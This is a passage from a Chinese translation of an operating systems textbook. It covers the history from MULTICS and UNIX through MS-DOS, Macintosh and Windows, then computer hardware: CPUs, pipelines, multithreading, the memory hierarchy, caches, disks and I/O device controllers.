在CTSS成功研制之后，MIT、贝尔实验室和通用电气公司（GE，当时一个主要的计算机制造厂商）决定开发一种“公用计算服务系统”，能够同时支持数百名分时用户的一种机器。它的模型借鉴了供电系统——当需要电能时，只需将电气设备接到墙上的插座即可，于是，在合理范围内，所需要的电能随时可提供。该系统称作MULTICS（MULTiplexed Information and Computing Service），其设计者着眼于建造满足波士顿地区所有用户计算需求的一台机器。在当时看来，仅仅40年之后，就能成百万台地销售（价值不到1千美元）速度是GE-645主机10 000倍的计算机，完全是科学幻想。这种想法同现在关于穿越大西洋的超音速海底列车的想法一样，是幻想。
MULTICS得到一种混合式的成功。尽管这台机器具有较强的I/O能力，却要在一台仅仅比Intel 386 PC性能强一点的机器上支持数百个用户。可是这个想法并不像表面上那么荒唐，因为那时的人们已经知道如何编写精练的高效程序，而这种技巧随后逐渐丢失了。有许多原因造成MULTICS没有能够普及到全世界，至少它不应该采用PL/1编写，因为PL/1编译器推迟了好几年才完成，好不容易完成的编译器又极少能够成功运行。另外，当时的MULTICS有太大的野心，犹如19世纪中期Charles Babbage的分析机。
简要地说，MULTICS在计算机文献中播撒了许多原创的概念，但要将其造成一台真正的机器并想实现商业上的巨大成功的研制难度超出了所有人的预料。贝尔实验室退出了，通用电气公司也退出了计算机领域。但是M.I.T.坚持下来并且最终使MULTICS成功运行。MULTICS最后成为商业产品，由购买了通用电气公司计算机业务的公司（Honeywell）销售，并安装在世界各地80多个大型公司和大学中。尽管MULTICS的数量很小，但是MULTICS的用户们却非常忠诚，例如，通用汽车、福特和美国国家安全局直到20世纪90年代后期，在试图让Honeywell更新其硬件多年之后，才关闭了他们的MULTICS系统，而这已经是在MULTICS推出之后30年了。
目前，计算服务的概念已经被遗弃，但是这个概念是可以回归的，以大量的、附有相对简单用户机器的、集中式Internet服务器形式回归。在这种形式中，主要工作在大型服务器上完成。而回归的动机可能是多数人不愿意管理日益过分复杂的计算机系统，宁可让那些运行服务器公司的专业团队去做。电子商务已经向这个方向演化了，各种公司在多处理器的服务器上经营各自的电子商场，简单的客户端连接着多处理器服务器，这同MULTICS的设计精神非常类似。
尽管MULTICS在商业上失败了，但MULTICS对随后的操作系统却有着巨大的影响，详情请参阅有关文献和书籍（Corbató等人，1972；Corbató和Vyssotsky，1965；Daley和Dennis，1968；Organick，1972；Saltzer，1974）。还有一个曾经（现在仍然）活跃的Web站点www.multicians.org，上面有大量关于系统、设计人员以及其用户的信息资料。
另一个第三代计算机的主要进展是小型机的崛起，以1961年DEC的PDP-1作为起点。PDP-1计算机只有4K个18位的内存，每台售价120 000美元（不到IBM 7094的5%），该机型非常热销。对于某些非数值的计算，它和7094几乎一样快。PDP-1开辟了一个全新的产业。很快有了一系列PDP机型（与IBM系列机不同，它们互不兼容），其顶峰为PDP-11。
一位曾参加过MULTICS研制的贝尔实验室计算机科学家Ken Thompson，后来找到一台无人使用的PDP-7机器，并开始开发一个简化的、单用户版MULTICS。他的工作后来导致了UNIX操作系统的诞生。接着，UNIX在学术界，政府部门以及许多公司中流行。
有关UNIX的历史到处可以找到（例如Salus，1994）。这段故事的部分放在第10章中介绍。现在，有充分理由认为，由于到处可以得到源代码，各种机构发展了自己的（不兼容）版本，从而导致了混乱。UNIX有两个主要的版本，源自AT＆T的System V，以及源自加州伯克利大学的BSD（Berkeley Software Distribution）。当然还有一些小的变种。为了使编写的程序能够在任何版本的UNIX上运行，IEEE提出了一个UNIX的标准，称作POSIX，目前大多数UNIX版本都支持它。POSIX定义了一个凡是UNIX必须支持的小型系统调用接口。事实上，某些其他操作系统也支持POSIX接口。
顺便值得一提的是，在1987年，本书作者发布了一个UNIX的小型克隆，称为MINIX，用于教学目的。在功能上，MINIX非常类似于UNIX，包括对POSIX的支持。从那时以后，MINIX的原始版本已经演化为MINIX 3，该系统是高度模块化的，并专注于高可靠性。它具有快速检测和替代有故障甚至已崩溃模块（如I/O设备驱动器）的能力，不用重启也不会干扰运行着的程序。有一本叙述其内部操作，并在附录中列出源代码的书（Tanenbaum和Woodhull，2006），该书现在仍然有售。在因特网的地址www.minix3.org上，MINIX3是免费使用的（包括了所有源代码）。
对UNIX版本免费产品（不同于教育目的）的愿望，导致芬兰学生Linus Torvalds编写了Linux。这个系统直接受到在MINIX开发的启示，而且原本支持各种MINIX的功能（例如MINIX文件系统）。尽管它已经通过多种方式扩展，但是该系统仍然保留了某些与MINIX和UNIX共同的低层结构。对Linux和开放源码运动具体历史感兴趣的读者可以阅读Glyn Moody的书籍（2001）。本书所叙述的有关UNIX的多数内容，也适用于System V、MINIX、Linux以及UNIX的其他版本和克隆。
随着LSI（大规模集成电路）的发展，在每平方厘米的硅片芯片上可以集成数千个晶体管，个人计算机时代到来了。从体系结构上看，个人计算机（最早称为微型计算机）与PDP-11并无二致，但就价格而言却相去甚远。以往，公司的一个部门或大学里的一个院系才配备一台小型机，而微处理器却使每个人都能拥有自己的计算机。
1974年，当Intel 8080，第一代通用8位CPU出现时，Intel希望有一个用于8080的操作系统，部分是为了测试目的。Intel请求其顾问Gary Kildall编写。Kildall和一位朋友首先为新推出的Shugart Associates 8英寸软盘构造了一个控制器，并把这个软磁盘同8080相连，从而制造了第一个配有磁盘的微型计算机。然后Kildall为它写了一个基于磁盘的操作系统，称为CP/M（Control Program for Microcomputer）。由于Intel不认为基于磁盘的微型计算机有什么未来前景，所以当Kildall要求CP/M的版权时，Intel同意了他的要求。Kildall于是组建了一家公司Digital Research，进一步开发和销售CP/M。
1977年，Digital Research重写了CP/M，使其可以在使用8080、Zilog Z80以及其他CPU芯片的多种微型计算机上运行，从而使得CP/M完全控制了微型计算机世界达5年之久。
在20世纪80年代的早期，IBM设计了IBM PC并寻找可在上面运行的软件。来自IBM的人员同Bill Gates联系有关他的BASIC解释器的许可证事宜，他们也询问是否他知道可在PC机上运行的操作系统。Gates建议IBM同Digital Research联系，即当时世界上主宰操作系统的公司。在做出毫无疑问是近代历史上最糟的商业决策后，Kildall拒绝与IBM会见，代替他的是一位次要人员。为了使事情更糟糕，他的律师甚至拒绝签署IBM的有关尚未公开的PC的保密协议。结果，IBM回头询问Gates可否提供他们一个操作系统。
在IBM返回时，Gates了解到一家本地计算机制造商，Seattle Computer Products，有合适的操作系统DOS（Disk Operating System）。他联系对方并提出购买（宣称75 000美元），对方接受了。然后Gates提供给IBM成套的DOS/BASIC，IBM也接受了。IBM希望做某些修改，于是Gates雇佣了那个写DOS的作者，Tim Paterson，作为Gates的微软公司早期的一个雇员，并开展工作。修改版称为MS-DOS（MicroSoft Disk Operating System），并且很快主导了IBM PC市场。同Kildall试图将CP/M每次卖给用户一个产品相比（至少开始是这样），这里一个关键因素是Gates（回顾起来，极其聪明）的决策，将MS-DOS与计算机公司的硬件捆绑在一起出售。在所有这一切烟消云散之后，Kildall突然不幸去世，其原因从来没有公布过。
1983年，IBM PC后续机型IBM PC/AT推出，配有Intel 80286 CPU。此时，MS-DOS已经确立了地位，而CP/M只剩下最后的支撑。MS-DOS后来在80386和80486中得到广泛的应用。尽管MS-DOS的早期版本是相当原始的，但是后期的版本提供了更多的先进功能，包括许多源自UNIX的功能。（微软对UNIX是如此娴熟，甚至在公司的早期销售过一个微型计算机版本，称为XENIX）。
用于早期微型计算机的CP/M、MS-DOS和其他操作系统，都是通过键盘输入命令的。由于Doug Engelbart于20世纪60年代在斯坦福研究院（Stanford Research Institute）工作，这种情况最终有了改变。Doug Engelbart发明了图形用户界面，包括窗口、图标、菜单以及鼠标。这些思想被Xerox PARC的研究人员采用，并用在了他们所研制的机器中。
一天，Steve Jobs（和其他人一起在汽车库里发明了苹果计算机）访问PARC,Jobs一看到GUI，立即意识到它的潜在价值，而Xerox管理层恰好没有认识到。这种战略失误的庞大比例，导致名为《摸索未来》一书的出版（Smith与Alexander，1988年）。Jobs随后着手设计了带有GUI的苹果计算机。这个项目导致了Lisa的推出，但是Lisa过于昂贵，所以它在商业上失败了。Jobs的第二次尝试，即苹果Macintosh，取得了巨大的成功，这不仅是因为它比Lisa便宜得多，而且它还是对用户友好的（user friendly），也就是说，它是为那些不仅没有计算机知识，而且也根本不打算学习计算机的用户们准备的。在图像设计、专业数码摄影，以及专业数字视频生产的创意世界里，Macintosh得到广泛的应用，这些用户对苹果公司及Macintosh有着极大的热情。
在微软决定构建MS-DOS的后继产品时，受到了Macintosh成功的巨大影响。微软开发了名为Windows的基于GUI的系统，早期它运行在MS-DOS上层（它更像shell而不像真正的操作系统）。在从1985年至1995年的10年之间，Windows只是在MS-DOS上层的一个图形环境。然而，到了1995年，一个独立的Windows版本，具有许多操作系统功能的Windows 95发布了。Windows 95仅仅把底层的MS-DOS作为启动和运行老的MS-DOS程序之用。1998年，一个稍做修改的系统，Windows 98发布。不过Windows 95和Windows 98仍然使用了大量16位Intel汇编语言。
另一个微软操作系统是Windows NT（NT表示新技术），它在一定的范围内同Windows 95兼容，但是内部是完全新编写的。它是一个32位系统。Windows NT的首席设计师是David Cutler，他也是VAX VMS操作系统的设计师之一，所以有些VMS的概念用在了NT上。事实上，NT中有太多的来自VMS的思想，所以VMS的所有者DEC公司控告了微软公司。法院对该案件判决的结果引出了一大笔需要用多位数字表达的金钱。微软公司期待NT的第一个版本可以消灭MS-DOS和其他的Windows版本，因为NT是一个巨大的超级系统，但是这个想法失败了。只有Windows NT 4.0踏上了成功之路，特别在企业网络方面取得了成功。1999年初，Windows NT 5.0改名为Windows 2000。微软期望它成为Windows 98和Windows NT 4.0的接替者。
不过这两个方面都不太成功，于是微软公司发布了Windows 98的另一个版本，名为Windows Me（千年版）。2001年，发布了Windows 2000的一个稍加升级的版本，称为Windows XP。这个版本的寿命比较长（6年），基本上替代了Windows所有原先版本。在2007年1月，微软公司发布了Windows XP的后继版，名为Vista。它有一个新的图形接口Aero，以及许多其他新的或升级的用户程序。微软公司希望Vista能够完全替代XP，但是这个过程可能需要将近十年的时间。
在个人计算机世界中，另一个主要竞争者是UNIX（和它的各种变体）。UNIX在网络和企业服务器等领域强大，在台式计算机上，特别是在诸如印度和中国这些发展中国家里，UNIX的使用也在增加。在基于Pentium的计算机上，Linux成为学生和不断增加的企业用户们代替Windows的通行选择。顺便提及，在本书中，我们使用“Pentium”这个名词代表Pentium I，II，III和4，以及它们的后继者，诸如Core 2 Duo等。术语x86有时仍旧用来表示Intel公司的包括8086的CPU，而“Pentium”则用于表示从Pentium I开始的所有CPU。很显然，这个术语并不完美，但是没有更好的方案。人们很奇怪，是Intel公司的哪个天才把半个世界都知晓和尊重的品牌名（Pentium）扔掉，并替代以“Core 2 Duo”这样一个几乎没有人立即理解的术语——“2”是什么意思，而“Duo”又是什么意思？也许“Pentium 5”（或者“Pentium 5 dual core”）太难于记忆吧。至于FreeBSD，一个源自于Berkeley的BSD项目，也是一个流行的UNIX变体。所有现代Macintosh计算机都运行着FreeBSD的一个修改版。在使用高性能RISC芯片的工作站上，诸如Hewlett-Packard公司和Sun Microsystems公司销售的那些机器上，UNIX系统也是一种标准配置。
尽管许多UNIX用户，特别是富有经验的程序员们更偏好基于命令的界面而不是GUI，但是几乎所有的UNIX系统都支持由MIT开发的称为X Windows的视窗系统（如众所周知的X11）。这个系统处理基本的视窗管理功能，允许用户通过鼠标创建、删除、移动和变比视窗。对于那些希望有图形系统的UNIX用户，通常在X 11之上还提供一个完整的GUI，诸如Gnome或KDE，从而使得UNIX在外观和感觉上类似于Macintosh或Microsoft Windows。
另一个开始于20世纪80年代中期的有趣发展是，那些运行网络操作系统和分布式操作系统（Tanenbaum和Van Steen，2007）的个人计算机网络的增长。在网络操作系统中，用户知道多台计算机的存在，用户能够登录到一台远地机器上并将文件从一台机器复制到另一台机器，每台计算机都运行自己本地的操作系统，并有自己的本地用户（或多个用户）。
网络操作系统与单处理器的操作系统没有本质区别。很明显，它们需要一个网络接口控制器以及一些低层软件来驱动它，同时还需要一些程序来进行远程登录和远程文件访问，但这些附加成分并未改变操作系统的本质结构。
相反，分布式操作系统是以一种传统单处理器操作系统的形式出现在用户面前的，尽管它实际上是由多处理器组成的。用户应该不知晓他们的程序在何处运行或者他们的文件存放于何处，这些应该由操作系统自动和有效地处理。
真正的分布式操作系统不仅仅是在单机操作系统上增添一小段代码，因为分布式系统与集中式系统有本质的区别。例如，分布式系统通常允许一个应用在多台处理器上同时运行，因此，需要更复杂的处理器调度算法来获得最大的并行度优化。
网络中的通信延迟往往导致分布式算法必须能适应信息不完备、信息过时甚至信息不正确的环境。这与单机系统完全不同，对于后者，操作系统掌握着整个系统的完备信息。
操作系统与运行该操作系统的计算机硬件联系密切。操作系统扩展了计算机指令集并管理计算机的资源。为了能够工作，操作系统必须了解大量的硬件，至少需要了解硬件如何面对程序员。出于这个原因，这里我们先简要地介绍现代个人计算机中的计算机硬件，然后开始讨论操作系统的具体工作细节。
从概念上讲，一台简单的个人计算机可以抽象为类似于图1-6中的模型。CPU、内存以及I/O设备都由一条系统总线连接起来并通过总线与其他设备通信。现代个人计算机结构更加复杂，包含多重总线，我们将在后面讨论之。目前，这一模式还是够用的。在下面各小节中，我们将简要地介绍这些部件，并且讨论一些操作系统设计师们所考虑的硬件问题。毫无疑问，这是一个非常简要的概括介绍。现在有不少讨论计算机硬件和计算机组织的书籍。其中两本有名的书的作者分别是Tanenbaum（2006）和Patterson与Hennessy（2004）。

计算机的“大脑”是CPU，它从内存中取出指令并执行之。在每个CPU基本周期中，首先从内存中取出指令，解码以确定其类型和操作数，接着执行之，然后取指、解码并执行下一条指令。按照这一方式，程序被执行完成。
每个CPU都有其一套可执行的专门指令集。所以，Pentium不能执行SPARC程序，而SPARC也不能执行Pentium程序。由于用来访问内存以得到指令或数据的时间要比执行指令花费的时间长得多，因此，所有的CPU内都有一些用来保存关键变量和临时数据的寄存器。这样，通常在指令集中提供一些指令，用以将一个字从内存调入寄存器，以及将一个字从寄存器存入内存。其他的指令可以把来自寄存器、内存的操作数组合，或者用两者产生一个结果，诸如将两个字相加并把结果存在寄存器或内存中。
除了用来保存变量和临时结果的通用寄存器之外，多数计算机还有一些对程序员可见的专门寄存器。其中之一是程序计数器，它保存了将要取出的下一条指令的内存地址。在指令取出之后，程序计数器就被更新以便指向后继的指令。
另一个寄存器是堆栈指针，它指向内存中当前栈的顶端。该栈含有已经进入但是还没有退出的每个过程的一个框架。在一个过程的堆栈框架中保存了有关的输入参数、局部变量以及那些没有保存在寄存器中的临时变量。
当然还有程序状态字（Program Status Word，PSW）寄存器。这个寄存器包含了条件码位（由比较指令设置）、CPU优先级、模式（用户态或内核态），以及各种其他控制位。用户程序通常读入整个PSW，但是，只对其中的少量字段写入。在系统调用和I/O中，PSW的作用很重要。
操作系统必须知晓所有的寄存器。在时间多路复用（time multiplexing）CPU中，操作系统经常会中止正在运行的某个程序并启动（或再启动）另一个程序。每次停止一个运行着的程序时，操作系统必须保存所有的寄存器，这样在稍后该程序被再次运行时，可以把这些寄存器重新装入。
为了改善性能，CPU设计师早就放弃了同时读取、解码和执行一条指令的简单模型。许多现代CPU具有同时取出多条指令的机制。例如，一个CPU可以有分开的取指单元、解码单元和执行单元，于是当它执行指令n时，它还可以对指令n+1解码，并且读取指令n+2。这样一种机制称为流水线（pipeline），在图1-7a中是一个有着三个阶段的流水线示意图。更长的流水线也是常见的。在多数的流水线设计中，一旦一条指令被取进流水线中，它就必须被执行完毕，即便前一条取出的指令是条件转移，它也必须被执行完毕。流水线使得编译器和操作系统的编写者很头疼，因为它造成了在机器中实现这些软件的复杂性问题。

比流水线更先进的设计是一种超标量CPU，如图1-7b所示。在这种设计中，有多个执行单元，例如，一个CPU用于整数算术运算，一个CPU用于浮点算术运算，而另一个用于布尔运算。两个或更多的指令被同时取出、解码并装入一个保持缓冲区中，直至它们执行完毕。只要有一个执行单元空闲，就检查保持缓冲区中是否还有可处理的指令，如果有，就把指令从缓冲区中移出并执行之。这种设计存在一种隐含的作用，即程序的指令经常不按顺序执行。在多数情况下，硬件负责保证这种运算的结果与顺序执行指令时的结果相同，但是，仍然有部分令人烦恼的复杂情形被强加给操作系统处理，我们在后面会讨论这种情况。
除了用在嵌入式系统中的非常简单的CPU之外，多数CPU都有两种模式，即前面已经提及的内核态和用户态。通常，在PSW中有一个二进制位控制这两种模式。当在内核态运行时，CPU可以执行指令集中的每一条指令，并且使用硬件的每种功能。操作系统在内核态下运行，从而可以访问整个硬件。
相反，用户程序在用户态下运行，仅允许执行整个指令集的一个子集和访问所有功能的一个子集。一般而言，在用户态中有关I/O和内存保护的所有指令是禁止的。当然，将PSW中的模式位设置成内核态也是禁止的。
为了从操作系统中获得服务，用户程序必须使用系统调用（system call）系统调用陷入内核并调用操作系统。TRAP指令把用户态切换成内核态，并启用操作系统。当有关工作完成之后，在系统调用后面的指令把控制权返回给用户程序。在本章的后面我们将具体解释系统调用过程，但是在这里，请读者把它看成是一个特别的过程调用指令，该指令具有从用户态切换到内核态的特别能力。作为排印上的说明，我们在行文中使用小写的Helvetica字体，表示系统调用，比如read。
有必要指出，计算机使用陷阱而不是一条指令来执行系统调用。其他的多数陷阱是由硬件引起的，用于警告有异常情况发生，诸如试图被零除或浮点下溢等。在所有的情况下，操作系统都得到控制权并决定如何处理异常情况。有时，由于出错的原因程序不得不停止。在其他情况下可以忽略出错（如下溢数可以被置为零）。最后，若程序已经提前宣布它希望处理某类条件时，那么控制权还必须返回给该程序，让其处理相关的问题。
多线程和多核芯片
Moore定律指出，芯片中晶体管的数量每18个月翻一番。这个“定律”并不是物理学上的某种规律，诸如动量守恒定律等，它是Intel公司的共同创始人Gordon Moore对半导体公司如何能快速缩小晶体管能力上的一个观察结果。Moore定律已经保持了30年，有希望至少再保持10年。
使用大量的晶体管引发了一个问题：如何处理它们呢？这里我们可以看到一种处理方式：具有多个功能部件的超标量体系结构。但是，随着晶体管数量的增加，再多晶体管也是可能的。一件由此而来的必然结果是，在CPU芯片中加入了更大的缓存，人们肯定会这样做，然而，原先获得的有用效果将最终消失掉。
显然，下一步不仅是有多个功能部件，某些控制逻辑也会出现多个。Pentium 4和其他一些CPU芯片就是这样做的，称为多线程（multithreading）或超线程（hyperthreading，这是Intel公司给出的名称）。近似地说，多线程允许CPU保持两个不同的线程状态，然后在纳秒级的时间尺度内来回切换。（线程是一种轻量级进程，也即一个运行中的程序。我们将在第2章中具体讨论）。例如，如果某个进程需要从内存中读出一个字（需要花费多个时钟周期），多线程CPU则可以切换至另一个线程。多线程不提供真正的并行处理。在一个时刻只有一个进程在运行，但是线程的切换时间则减少到纳秒数量级。
多线程对操作系统而言是有意义的，因为每个线程在操作系统看来就像是单个的CPU。考虑一个实际有两个CPU的系统，每个CPU有两个线程。这样操作系统将把它看成是4个CPU。如果在某个时间的特定点上，只有能够维持两个CPU忙碌的工作量，那么在同一个CPU上调度两个线程，而让另一个CPU完全空转，就没有优势了。这种选择远远不如在每个CPU上运行一个线程的效率高。Pentium 4的后继者，Core（还有Core 2）的体系结构并不支持超线程，但是Intel公司已经宣布，Core的后继者会具有超线程能力。
除了多线程，还出现了包含2个或4个完整处理器或内核的CPU芯片。图1-8中的多核芯片上有效地装有4个小芯片，每个小芯片都是一个独立的CPU。（后面将解释缓存。）要使用这类多核芯片肯定需要多处理器操作系统。

在任何一种计算机中的第二种主要部件都是存储器。在理想情形下，存储器应该极为迅速（快于执行一条指令，这样CPU不会受到存储器的限制），充分大，并且非常便宜。但是目前的技术无法同时满足这三个目标，于是出现了不同的处理方式。存储器系统采用一种分层次的结构，如图1-9所示。顶层的存储器速度较高，容量较小，与底层的存储器相比每位成本较高，其差别往往是十亿数量级。

存储器系统的顶层是CPU中的寄存器。它们用与CPU相同的材料制成，所以和CPU一样快。显然，访问它们是没有时延的。其典型的存储容量是，在32位CPU中为32×32位，而在64位CPU中为64×64位。在这两种情形下，其存储容量都小于1 KB。程序必须在软件中自行管理这些寄存器（即决定如何使用它们）。
下一层是高速缓存，它多数由硬件控制。主存被分割成高速缓存行（cache line），其典型大小为64个字节，地址0至63对应高速缓存行0，地址64至127对应高速缓存行1，以此类推。最常用的高速缓存行放置在CPU内部或者非常接近CPU的高速缓存中。当某个程序需要读一个存储字时，高速缓存硬件检查所需要的高速缓存行是否在高速缓存中。如果是，称为高速缓存命中，缓存满足了请求，就不需要通过总线把访问请求送往主存。高速缓存命中通常需要两个时钟周期。高速缓存未命中就必须访问内存，这要付出大量的时间代价。由于高速缓存的价格昂贵，所以其大小有限。有些机器具有两级甚至三级高速缓存，每一级高速缓存比前一级慢且容量更大。
缓存在计算机科学的许多领域中起着重要的作用，并不仅仅只是RAM的缓存行。只要存在大量的资源可以划分为小的部分，那么，这些资源中的某些部分就会比其他部分更频繁地得到使用，通常缓存的使用会带来性能上的改善。操作系统一直在使用缓存。例如，多数操作系统在内存中保留频繁使用的文件（的一部分），以避免从磁盘中重复地调取这些文件。相似地，类似于
/home/ast/projects/minix3/src/kernel/clock.c
的长路径名转换成文件所在的磁盘地址的结果，也可以放入缓存，以避免重复寻找地址。还有，当一个Web页面（URL）的地址转换为网络地址（IP地址）后，这个转换结果也可以缓存起来以供将来使用。还有许多其他的类似的应用。
在任何缓存系统中，都有若干需要尽快考虑的问题，包括：
1)何时把一个新的内容放入缓存。
2)把新内容放在缓存的哪一行上。
3)在需要时，应该把哪个内容从缓存中移走。
4)应该把新移走的内容放在某个较大存储器的何处。
并不是每个问题的解决方案都符合每种缓存处理。对于CPU缓存中的主存缓存行，每当有缓存未命中时，就会调入新的内容。通常通过所引用内存地址的高位计算应该使用的缓存行。例如，对于64字节的4096缓存行，以及32位地址，其中6～17位用来定位缓存行，而0～5位则用来确定缓存行中的字节。在这个例子中，被移走内容的位置就是新数据要进入的位置，但是在有的系统中未必是这样。最后，当将一个缓存行的内容重写进主存时（该内容被缓存后，可能会被修改），通过该地址来惟一确定需重写的主存位置。
缓存是一种好方法，所以现代CPU中设计了两个缓存。第一级或称为L1缓存总是在CPU中，通常用来将已解码的指令调入CPU的执行引擎。对于那些频繁使用的数据字，多数芯片安排有第二个L1缓存。典型的L1缓存大小为16KB。另外，往往还设计有二级缓存，称为L2缓存，用来存放近来所使用过若干兆字节的内存字。L1和L2缓存之间的差别在于时序。对L1缓存的访问，不存在任何延时；而对L2缓存的访问，则会延时1或2个时钟周期。
在多核芯片中。设计师必须确定缓存的位置。在图1-8a中，一个L2缓存被所有的核共享。Intel多核芯片采用了这个方法。相反，在图1-8b中，每个核有其自己的L2缓存。AMD采用这个方法。不过每种策略都有自己的优缺点。例如，Intel的共享L2缓存需要有一种更复杂的缓存控制器，而AMD的方式在设法保持L2缓存一致性上存在困难。
在图1-9的层次结构中，再往下一层是主存。这是存储器系统的主力。主存通常称为随机访问存储器（Random Access Memory，RAM）。过去有时称之为磁芯存储器，因为在20世纪50年代和60年代，使用很小的可磁化的铁磁体制作主存。目前，存储器的容量在几百兆字节到若干吉字节之间，并且其容量正在迅速增长。所有不能在高速缓存中得到满足的访问请求都会转往主存。
除了主存之外，许多计算机已经在使用少量的非易失性随机访问存储器。它们与RAM不同，在电源切断之后，非易失性随机访问存储器并不丢失其内容。只读存储器（Read Only Memory，ROM）在工厂中就被编程完毕，然后再也不能被修改。ROM速度快且便宜。在有些计算机中，用于启动计算机的引导加载模块就存放在ROM中。另外，一些I/O卡也采用ROM处理底层设备控制。
EEPROM（Electrically Erasable PROM，电可擦除可编程ROM）和闪存（flash memory）也是非易失性的，但是与ROM相反，它们可以擦除和重写。不过重写它们需要比写入RAM更高数量级的时间，所以它们的使用方式与ROM相同，而其与众不同的特点使它们有可能通过字段重写的方式纠正所保存程序中的错误。
在便携式电子设备中，闪存通常作为存储媒介。闪存是数码相机中的胶卷，是便携式音乐播放器的磁盘，这仅仅是闪存用途中的两项。闪存在速度上介于RAM和磁盘之间。另外，与磁盘存储器不同，如果闪存擦除的次数过多，就被磨损了。
还有一类存储器是CMOS，它是易失性的。许多计算机利用CMOS存储器保持当前时间和日期。CMOS存储器和递增时间的时钟电路由一块小电池驱动，所以，即使计算机没有上电，时间也仍然可以正确地更新。CMOS存储器还可以保存配置参数，诸如，哪一个是启动磁盘等。之所以采用CMOS是因为它消耗的电能非常少，一块工厂原装的电池往往就能使用若干年。但是，当电池开始失效时，计算机就会出现“Alzheimer病症” [1] 计算机会忘记掉记忆多年的事物，比如应该由哪个磁盘启动等。
下一个层次是磁盘（硬盘）。磁盘同RAM相比，每个二进制位的成本低了两个数量级，而且经常也有两个数量级大的容量。磁盘惟一的问题是随机访问数据时间大约慢了三个数量级。其低速的原因是因为磁盘是一种机械装置，如图1-10所示。

在一个磁盘中有一个或多个金属盘片，它们以5400，7200或10 800rpm的速度旋转。从边缘开始有一个机械臂悬横在盘面上，这类似于老式播放塑料唱片33转唱机上的拾音臂。信息写在磁盘上的一系列同心圆上。在任意一个给定臂的位置，每个磁头可以读取一段环形区域，称为磁道（track）。把一个给定臂的位置上的所有磁道合并起来，组成了一个柱面（cylinder）。
每个磁道划分为若干扇区，扇区的典型值是512字节。在现代磁盘中，较外面的柱面比较内部的柱面有更多的扇区。机械臂从一个柱面移到相邻的柱面大约需要1ms。而随机移到一个柱面的典型时间为5ms至10ms，其具体时间取决于驱动器。一旦磁臂到达正确的磁道上，驱动器必须等待所需的扇区旋转到磁头之下，这就增加了5ms至10ms的时延，其具体延时取决于驱动器的转速。一旦所需要的扇区移到磁头之下，就开始读写，低端硬盘的速率是5MB/s，而高速磁盘的速率是160 MB/s。
许多计算机支持一种著名的虚拟内存机制，这将在第3章中讨论。这种机制使得期望运行大于物理内存的程序成为可能，其方法是将程序放在磁盘上，而将主存作为一种缓存，用来保存最频繁使用的部分程序。这种机制需要快速地映像内存地址，以便把程序生成的地址转换为有关字节在RAM中的物理地址。这种映像由CPU中的一个部件，称为存储器管理单元（Memory Management Unit，MMU）来完成，如图1-6所示。
缓存和MMU的出现对系统的性能有着重要的影响。在多道程序系统中，从一个程序切换到另一个程序，有时称为上下文切换（context switch），有必要对缓存中来的所有修改过的块进行写回磁盘操作，并修改MMU中的映像寄存器。但是这两种操作的代价很昂贵，所以程序员们努力避免使用这些操作。我们稍后将看到这些操作产生的影响。
在存储器体系中的最后一层是磁带。这种介质经常用于磁盘的备份，并且可以保存非常大量的数据集。在访问磁带前，首先要把磁带装到磁带机上，可以人工安装也可用机器人安装（在大型数据库中通常安装有自动磁带处理设备）。然后，磁带可能还需要向前绕转以便读取所请求的数据块。总之，这一切工作要花费几分钟。磁带的最大特点是每个二进制位的成本极其便宜，并且是可移动的，这对于为了能在火灾、洪水、地震等灾害中存活下来，必须离线存储的备份磁带而言，是非常重要的。
我们已经讨论过的存储器体系结构是典型的，但是有的安装系统并不具备所有这些层次，或者有所差别（诸如光盘）。不过，在所有的系统中，当层次下降时，其随机访问时间则明显地增加，容量也同样明显地增加，而每个二进制位的成本则大幅度下降。其结果是，这种存储器体系结构似乎还要伴随我们多年。
CPU和存储器不是操作系统惟一需要管理的资源。I/O设备也与操作系统有密切的相互影响。如图1-6所示，I/O设备一般包括两个部分：设备控制器和设备本身。控制器是插在电路板上的一块芯片或一组芯片，这块电路板物理地控制设备。它从操作系统接收命令，例如，从设备读数据，并且完成数据的处理。
在许多情形下，对这些设备的控制是非常复杂和具体的，所以，控制器的任务是为操作系统提供一个简单的接口（不过还是很复杂的）。例如，磁盘控制器可以接受一个命令从磁盘2读出11206号扇区，然后，控制器把这个线性扇区号转化为柱面、扇区和磁头。由于外柱面比内柱面有较多的扇区，而且一些坏扇区已经被映射到磁盘的其他地方，所以这种转换将是很复杂的。磁盘控制器必须确定磁头臂应该在哪个柱面上，并对磁头臂发出一串脉冲使其前后移动到所要求的柱面号上，接着必须等待对应的扇区转动到磁头下面并开始读出数据，随着数据从驱动器读出，要消去引导块并计算校验和。最后，还得把输入的二进制位组成字并存放到存储器中。为了要完成这些工作，在控制器中经常安装一个小的嵌入式计算机，该嵌入式计算机运行为执行这些工作而专门编好的程序。
I/O设备的另一个部分是实际设备的自身。设备本身有个相对简单的接口，这是因为接口既不能做很多工作，又已经被标准化了。标准化是有必要的，这样任何一个IDE磁盘控制器就可以适应任一种IDE磁盘，例如，IDE表示集成驱动器电子设备（Integrated Drive Electronics），是许多计算机的磁盘标准。由于实际的设备接口隐藏在控制器中，所以，操作系统看到的是对控制器的接口，这个接口可能和设备接口有很大的差别。
每类设备控制器都是不同的，所以，需要不同的软件进行控制。专门与控制器对话，发出命令并接收响应的软件，称为设备驱动程序（device driver）。每个控制器厂家必须为所支持的操作系统提供相应的设备驱动程序。例如，一台扫描仪会配有用于Windows 2000、Windows XP、Vista以及Linux的设备驱动程序。
为了能够使用设备驱动程序，必须把设备驱动程序装入到操作系统中，这样它可在核心态中运行。理论上，设备驱动程序可以在内核外运行，但是几乎没有系统支持这种可能的方式，因为它要求允许在用户空间的设备驱动程序能够以控制的方式访问设备，这是一种极少得到支持的功能。要将设备驱动程序装入操作系统，有三个途径。第一个途径是将内核与设备驱动程序重新链接，然后重启动系统。许多UNIX系统以这种方式工作。第二个途径是在一个操作系统文件中设置一个入口，并通知该文件需要一个设备驱动程序，然后重启动系统。在系统启动时，操作系统去找寻所需的设备驱动程序并装载之。Windows就是以这种方式工作。第三种途径是，操作系统能够在运行时接受新的设备驱动程序并且立即将其安装好，无须重启动系统。这种方式采用的较少，但是这种方式正在变得普及起来。热插拔设备，诸如USB和IEEE1394设备（后面会讨论）都需要动态可装载设备驱动程序。
每个设备控制器都有少量的用于通信的寄存器。例如，一个最小的磁盘控制器也会有用于指定磁盘地址、内存地址、扇区计数和方向（读或写）的寄存器。要激活控制器，设备驱动程序从操作系统获得一条命令，然后翻译成对应的值，并写进设备寄存器中。所有设备寄存器的集合构成了I/O端口空间，我们将在第5章讨论有关内容。
